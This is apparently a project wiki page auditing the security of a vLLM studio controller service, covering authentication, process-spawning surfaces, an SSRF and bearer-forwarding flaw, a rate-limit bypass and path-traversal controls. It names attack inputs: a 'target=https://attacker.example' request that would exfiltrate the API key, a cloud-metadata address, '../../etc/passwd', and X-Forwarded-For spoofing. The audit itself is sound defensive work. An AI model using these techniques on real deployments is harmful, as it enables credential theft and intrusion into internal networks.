

# Controller security

The controller (`controller/`, Bun + Hono, default port `:8080`) owns model
lifecycle, the inference proxy, downloads, metrics, logs, and settings. It is
the most security-relevant process in the system because several of its
endpoints are, by design, primitives for executing processes and reaching the
network on the host's behalf. This page describes exactly what the code does,
with file:line citations, as of commit `d9ede391` (2026-06-09).

The single most important fact: **the controller's safety rests almost
entirely on the API key.** When `VLLM_STUDIO_API_KEY` is set, every route
except `/health` requires it. When it is unset — the default for a loopback
bind — there is no authentication on any route, and the process-control and
passthrough endpoints below become unauthenticated.

## Bind and auth policy

The bind/auth decision is made when config is constructed in
`controller/src/config/env.ts`:

- `VLLM_STUDIO_HOST` defaults to `127.0.0.1` (`env.ts:92`); `main.ts:29-31`
  binds `Bun.serve` to it.
- The startup guard (`env.ts:137-141`) throws if the host is **non-loopback**
  and no API key is set, **unless** `VLLM_STUDIO_ALLOW_UNAUTHENTICATED` is
  truthy. `isLoopbackHost` accepts `127.0.0.1`, `localhost`, `::1`
  (`env.ts:52-55`).



The guard reasons about loopback only. Binding to a specific LAN IP such as
`192.168.1.70` is correctly treated as non-loopback and triggers the guard.
The two ways to end up unauthenticated on a reachable interface are: setting
`ALLOW_UNAUTHENTICATED=true` with a non-loopback bind, or — as in the
documented homelab deploy — fronting the keyless loopback port with a reverse
proxy (`cloudflared`).

## What is authenticated

Middleware is mounted on `*` in this order (`app.ts:48-50`): observability →
rate-limit → auth.

The auth middleware (`createMutatingAuthMiddleware`,
`security-middleware.ts:64-83`) is misleadingly named: it applies to **all**
methods, not just mutating ones. Its actual logic:

- `OPTIONS` and `/health` are always public (`PUBLIC_PATHS`,
  `security-middleware.ts:6,21-23`).
- **If an API key is configured**, every other route — every `GET` included —
  requires `Authorization: Bearer <key>` or `X-API-Key`. Comparison is
  constant-time via `timingSafeEqual` behind a length check
  (`safeTokenEquals`, `security-middleware.ts:51-58`). This is a strong
  posture.
- **If no API key is configured**, the middleware calls `next()`
  unconditionally (`security-middleware.ts:71-73`) — **nothing is
  authenticated.**

### Unauthenticated GET exposure (keyless mode only)

When no key is set, these reads are open to any peer that can reach the port:

| Route | Exposes | Leaks the key/HF token? |
| --- | --- | --- |
| `GET /config` (`system/routes.ts:208-304`) | host/ports, `models_dir`, `data_dir`, `db_path`, binary paths, hostname | No — returns `api_key_configured: Boolean(...)` only (`routes.ts:285`) |
| `GET /studio/diagnostics` (`studio/routes.ts:186-224`) | config block + CPU/GPU/mem/disk/vLLM version | No — boolean flag only |
| `GET /studio/providers` (`studio/routes.ts:321-330`) | provider id/name/base_url/enabled | No — `has_api_key: Boolean(...)` only |
| `GET /logs`, `/logs/:id`, `/logs/:id/stream` (`logs-routes.ts:109,159,214`) | full inference-engine log contents | Indirect — only if a recipe passed secrets as engine args the engine then echoes |
| `GET /events` (`logs-routes.ts:196-212`) | control-plane SSE: model switches, launch/download progress, log lines | Indirect, as above |

The controller never returns the API key or HF token in any response body.
Filesystem-path and hostname disclosure via `/config` is the main passive
info-leak when keyless.

## Process spawning: recipe launch is intentional arbitrary execution

The path from HTTP to a spawned process:

```
POST /launch/:recipeId  (engines/routes.ts:142-202)
  → engineService.setActiveRecipe  (engine-coordinator.ts:21)
  → processManager.launchModel     (process-manager.ts:277)
  → buildBackendCommand            (backend-builder.ts:271)
  → spawn(entry, args, { env, detached })  (process-manager.ts:325-329)
```

Three things make this a code-execution surface, not just a config surface:

1. **`launch_command` / `custom_command` override.**
   `getLaunchCommandOverride` (`backend-builder.ts:174-183`) reads
   `extra_args.launch_command` or `custom_command`, tokenizes it, and
   `buildBackendCommand` returns it verbatim as argv. `command[0]` becomes the
   executable. A recipe can name **any binary and any arguments** — there is
   no allowlist. Recipe CRUD is HTTP-exposed (`POST/PUT /recipes`,
   `engines/routes.ts:107-130`), so the full chain is reachable over the API.
2. **Unvalidated `extra_args`.** The schema is
   `z.record(z.unknown())` (`recipe-serializer.ts:117`); every key is appended
   to the engine command as `--flag value` (`backend-builder.ts:57-122`).
3. **Arbitrary `env_vars`.** Recipe env overlays `process.env` for the child
   (`process-utilities.ts:96-121`).

A second exec surface exists in the runtime-upgrade endpoints
(`POST /runtime/jobs`, `/runtime/{vllm,sglang,llamacpp,cuda,rocm}/upgrade`,
`engines/routes.ts:333-474`): they accept a body `command` string and `args`
array that flow to `spawnSync(command, args)`
(`runtime-upgrade.ts:26-47` → `core/command.ts:13-32`).

A third: `trust_remote_code` defaults to **true**
(`recipe-serializer.ts:107`), so launching or downloading a model runs that
repo's Python by default.

**These are not bugs** — they are the controller's job (it launches inference
servers operators choose). They are safe precisely and only when the API key
gates them. With no key, any peer that reaches the port has remote code
execution as the controller user.

### Mitigating controls on spawning

The blast radius is narrowed by several real controls:

- `spawn`/`spawnSync` are always called with an **argv array, never a shell
  string** — no shell-metacharacter injection (`; | $()` are inert).
- `llama_bin` overrides reject `..` traversal and require the basename
  `llama-server` (`isAllowedLlamaServerBinary`, `backend-builder.ts:256-301`).
- `resolveBinary` returns only existing regular files (`core/command.ts:34-83`).
- The `backend` field is an enum (`recipe-serializer.ts:99`).

## SSRF and bearer reflection: `/controllers/route/*`

This is the most notable network-side finding. The handler
(`app.ts:61-96`) forwards to another controller named by a `target` query
param or `x-vllm-target-controller` header:

- **The target host is fully request-controlled.** Only the protocol is
  checked (`http:`/`https:`, `app.ts:67-69`) — there is **no host
  allowlist**, so `127.0.0.1`, `169.254.169.254` (cloud metadata), RFC1918
  ranges, and Tailscale peers are all reachable. The controller `fetch`es the
  target and streams the body back: a classic SSRF pivot into the internal
  network.
- **The client `Authorization` header is forwarded verbatim to the
  attacker-chosen target** (`app.ts:82-83`:
  `authorization: ctx.req.header("authorization") ?? ""`). If callers reuse
  the controller's own API key as their bearer — the natural setup — a request
  with `target=https://attacker.example` exfiltrates that key.
- The route is `app.all(...)`, so it serves `GET`, and **`GET` is not
  rate-limited** (see below). Redirects are followed by default, widening the
  reach.

When a key is configured the caller must already hold it, but the SSRF still
grants internal-network reach and reflects the bearer outward. When keyless,
it is open.

## The inference proxy does not have this problem

By contrast, the OpenAI-compatible proxy (`modules/proxy/openai-routes.ts`,
`services/provider-routing.ts`) is sound:

- Upstreams are **not** request-URL-controlled. Local inference uses the
  config `inference_host`/`inference_port`; provider routing selects among
  **operator-configured** providers by a `provider/model` string, falling back
  to local on an unknown provider (`provider-routing.ts:19-44`).
- The client's inbound `Authorization` (the controller key) is **not**
  forwarded upstream. The proxy sets a fresh key: the provider's configured
  key, else `INFERENCE_API_KEY`, else none (`openai-routes.ts:297-305`). The
  controller key never leaks to inference backends.

The residual is config-time only: an operator (or a keyless attacker) could
point a provider's `base_url` at an internal URL via `POST /studio/providers`,
and that provider's key would be sent there.

## Rate limiting

`createMutatingRateLimitMiddleware` (`security-middleware.ts:85-134`):

- Applies to **mutating methods only** — every `GET`, including the SSRF
  passthrough and the SSE/log endpoints, is unthrottled
  (`security-middleware.ts:96-98`).
- The key is `clientIp:METHOD:path`, and the client IP is the first
  `x-forwarded-for` value with no trusted-proxy gating
  (`getClientIpFromRequestHeaders`, `security-middleware.ts:25-32`). Any caller
  can rotate `X-Forwarded-For` to mint unlimited fresh buckets — the 120-req /
  60-second limit is **trivially bypassable** when the controller is not behind
  a header-normalizing proxy.
- The store is an in-memory `Map`, pruned only when it exceeds 10,000 entries
  (`security-middleware.ts:124-130`); spoofed-IP flooding can grow it toward
  that bound.

Correctly emitted `X-RateLimit-*` and `Retry-After` headers are a positive.

## Path traversal: confined

No request-input-driven traversal was found. Confinement is consistent:

- Log session IDs are reduced to `[A-Za-z0-9._-]` (`log-files.ts:46-49`), so
  `../../etc/passwd` collapses to a filename inside the logs dir;
  `DELETE /logs/controller` is explicitly blocked.
- Model delete/move and the VRAM calculator require the resolved path to
  `startsWith(modelsRoot + sep)` before any `rmSync`/`renameSync`
  (`studio/routes.ts:252-319`, `system/routes.ts:110-118`).
- Download destinations strip `.`/`..` and verify containment under
  `models_dir` (`download-paths.ts:4-24`, re-checked per file in
  `download-manager.ts:264`).
- Settings persist to a fixed `studio-settings.json` under `data_dir` — no
  request-controlled path.

## Secrets and storage

- **No secret values are logged** anywhere (grep of all `logger.*` calls). The
  key is referenced only for the auth check, the `Boolean(...)` disclosure
  flags, and provider headers.
- HF token resolution prefers request body, then headers, then env
  (`engines/routes.ts:29-41`), and the token is sent only to `huggingface.co`.
- **Chat content is never persisted.** Startup drops the chat/message tables
  (`stores/sqlite.ts:3-19`); the only inference table stores model/source/
  token-counts/timestamps with **no prompt or message text**
  (`inference-request-store.ts:70-123`). All SQL is parameterized.
- `studio-settings.json` (which holds provider keys) is written with the
  directory at `0700` and the file at `0600` (`persisted-config.ts:62-68`).
  The SQLite DB — which can hold recipe `env_vars`/`launch_command` — is
  created at the default umask with no explicit `chmod`.
- No `eval`, `new Function`, or unsafe deserialization exists; the error
  handler returns generic 500s without leaking stack traces (`app.ts:105-135`).

## See also

- [Threat model](threat-model.md) — how these endpoints look to an attacker.
- [Frontend and proxy](frontend-and-proxy.md) — the layer in front of this one.
- [Risk register](risk-register.md) — prioritized findings and remediations.
- droid-wiki: [Engine lifecycle](../../droid-wiki/systems/engine-lifecycle.md),
  [Inference proxy](../../droid-wiki/systems/inference-proxy.md).
